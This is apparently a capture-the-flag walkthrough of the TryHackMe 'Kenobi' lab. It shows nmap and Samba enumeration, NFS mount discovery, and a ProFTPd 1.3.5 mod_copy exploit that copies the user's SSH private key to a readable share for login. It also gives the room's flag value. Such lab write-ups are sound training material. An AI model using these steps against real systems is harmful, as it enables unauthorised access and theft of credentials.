 # Kenobi Wlakthrough
### Link
- https://tryhackme.com/room/kenobi
------------------------
### Task1 -  Deploy the vulnerable machine
- Scan the machine with nmap, how many ports are open?
    - sudo nmap -sV -sC -oN ./nmap_kenobi_result.txt [IP]
    - **Answer** : 7
    - pictures:<br>
                [Kenobi_1.png](https://github.com/LNB283/THM/blob/main/EASY/Kenobi/Pictures/Kenobi_1.png)<br>
                [Kenobi_2.png](https://github.com/LNB283/THM/blob/main/EASY/Kenobi/Pictures/Kenobi_2.png)
------------------------
### Task 2 - Enumerating Samba for shares
- Using the nmap command above, how many shares have been found?
    - nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [IP]
    - **Answer** : 3
    - pictures:<br>
                [Kenobi_3.png](https://github.com/LNB283/THM/blob/main/EASY/Kenobi/Pictures/Kenobi_3.png)
- Check Enonymous share
    - smbclient //[IP]/anonymous
    - Try without password
    - Once you're connected, list the files on the share. What is the file can you see?
    - **Answer** : log.txt
    - picture: [Kenobi_4.png](https://github.com/LNB283/THM/blob/main/EASY/Kenobi/Pictures/Kenobi_4.png)
- Download the file **log.txt**. We can use SMB to do this action (recursive)
    - smbget -R smb://[IP]/anonymous
    - picture: [Kenobi_5.png](https://github.com/LNB283/THM/blob/main/EASY/Kenobi/Pictures/Kenobi_5.png)
-  Port 111 is access to a network file system.
    - nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP
    - What mount can we see?
    - **Answer** : /var
    - picture: [Kenobi_6.png](https://github.com/LNB283/THM/blob/main/EASY/Kenobi/Pictures/Kenobi_6.png)
------------------------
### Task 3 - Gain initial access with ProFtpd
- What is the version?
    - Check the initial nmap scan.
    - **Answer** : 1.3.5
    - picture: [Kenobi_1.png](https://github.com/LNB283/THM/blob/main/EASY/Kenobi/Pictures/Kenobi_1.png)
- How many exploits are there for the ProFTPd running?
    - We can use searchsploit to find exploits for this particular version.
    - **Answer** : 3
    - picture: [Kenobi_8.png](https://github.com/LNB283/THM/blob/main/EASY/Kenobi/Pictures/Kenobi_8.png)
- One exploit is related to "mod copy". Check this link to understand more about [mod copy](http://www.proftpd.org/docs/contrib/mod_copy.html)
    - Connect to the machine by using **mod copy**
        - sudo nc [IP] [port]
        - SITE CPFR /home/kenobi/.ssh/id_rsa --> Copy the private key
        - SITE CPTO /var/tmp/id_rsa --> Paste to /var/tmp because var directory is reachable with Anonymous
        - picture: [Kenobi_9.png](https://github.com/LNB283/THM/blob/main/EASY/Kenobi/Pictures/Kenobi_9.png)
    - From the local machine
        - mkdir /mnt/kenobiNFS
        - mount machine_ip:/var /mnt/kenobiNFS
        - ls -la /mnt/kenobiNFS
        - We can see all directories & files under /var
        - - picture: [Kenobi_10.png](https://github.com/LNB283/THM/blob/main/EASY/Kenobi/Pictures/Kenobi_10.png) 
    - Last steps :
        - Copy the private key and log to the machine through SSH with kenobi as username
        - Open /home/kenobi/user.txt
    - **Answer** : d0b0f3f53b6caa532a83915e19224899